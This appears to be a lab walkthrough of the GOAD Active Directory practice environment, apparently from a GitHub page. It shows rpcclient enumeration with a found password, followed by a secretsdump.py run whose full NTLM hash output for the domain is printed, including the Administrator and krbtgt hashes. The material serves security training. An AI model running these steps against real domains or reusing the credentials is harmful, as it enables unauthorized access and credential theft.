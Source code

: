 Since I got one user credentials for Winterfell which is `robb.stark:sexywolfy`, let's try to connect to it via rpcclient.

`rpcclient -U 'robb.stark%sexywolfy' 10.4.10.11`

By running `enumdomusers` I get the list of users:

![](Pasted_image_20250107135937.png)
![Pasted_image_20250107135937](https://github.com/user-attachments/assets/1d53e4bf-1791-4918-9ab7-a909503794f8)

Then I get the list of groups by running `enumdomgroups`:

![](Pasted_image_20250107140035.png)
![Pasted_image_20250107140035](https://github.com/user-attachments/assets/e16c66bf-f4a9-4bce-9ce6-4f32a423f49c)

Now, since I want to get the members of the Domain Admins, i use `qureygroupmem 0x200`:

![](Pasted_image_20250107140129.png)
![Pasted_image_20250107140129](https://github.com/user-attachments/assets/76aa0b9e-16f1-448c-bed3-c2cd7711aaaf)

Here I see the `rid-s` of the members of Domain Admin group, which are `0x1f4` and `0x457`, and by looking at the users I can conclude that the members of this admin group are:

`user:[Administrator] rid:[0x1f4]`
`user:[eddard.stark] rid:[0x457]`

Now, let's get the hashes, by using `secretsdump.py`, and running:

```bash
secretsdump.py north.sevenkingdoms.local/robb.stark:sexywolfy@10.4.10.11
```

I got:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:34b24f1a67d914d8ef876f8bd02f3f0b:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
arya.stark:1110:aad3b435b51404eeaad3b435b51404ee:4f622f4cd4284a887228940e2ff4e709:::
eddard.stark:1111:aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8:::
catelyn.stark:1112:aad3b435b51404eeaad3b435b51404ee:cba36eccfd9d949c73bc73715364aff5:::
robb.stark:1113:aad3b435b51404eeaad3b435b51404ee:831486ac7f26860c9e2f51ac91e1a07a:::
sansa.stark:1114:aad3b435b51404eeaad3b435b51404ee:b777555c2e2e3716e075cc255b26c14d:::
brandon.stark:1115:aad3b435b51404eeaad3b435b51404ee:84bbaa1c58b7f69d2192560a3f932129:::
rickon.stark:1116:aad3b435b51404eeaad3b435b51404ee:7978dc8a66d8e480d9a86041f8409560:::
hodor:1117:aad3b435b51404eeaad3b435b51404ee:337d2667505c203904bd899c6c95525e:::
jon.snow:1118:aad3b435b51404eeaad3b435b51404ee:b8d76e56e9dac90539aff05e3ccb1755:::
samwell.tarly:1119:aad3b435b51404eeaad3b435b51404ee:f5db9e027ef824d029262068ac826843:::
jeor.mormont:1120:aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664:::
sql_svc:1121:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:8a647d60877c8743dccb8ff2aa18a060:::
CASTELBLACK$:1105:aad3b435b51404eeaad3b435b51404ee:0073abf6ce521277f2d1a148bc955aa9:::
SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:ac819f7c593d51f56b614f3dcc10f193:::
```
